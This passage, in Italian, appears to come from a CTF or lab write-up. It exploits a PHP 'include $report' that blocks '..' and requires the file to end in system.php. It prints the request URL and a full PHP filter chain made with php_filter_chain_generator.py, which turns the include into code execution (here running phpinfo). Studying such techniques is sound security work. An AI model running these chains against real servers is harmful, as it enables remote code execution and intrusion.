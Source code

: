 ```php
include $report;

```

Non e' possibile muoversi nel file system con la **Local File Inclusion (LFI)** tradizionale, dato che i `..` vengono rilevati.

Inoltre, il file da includere nel report deve terminare ad esempio con **system.php**.

### PHP filter chain
---

Tuttavia, prima di **system.php** si puo' concatenare qualsiasi cosa, come una **PHP filter chain**.

```text
/admin/reports.php?report=PHP_FILTER_CHAIN,system.php
```

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'        
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?> (base64 value: PD9waHAgcGhwaW5mbygpOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```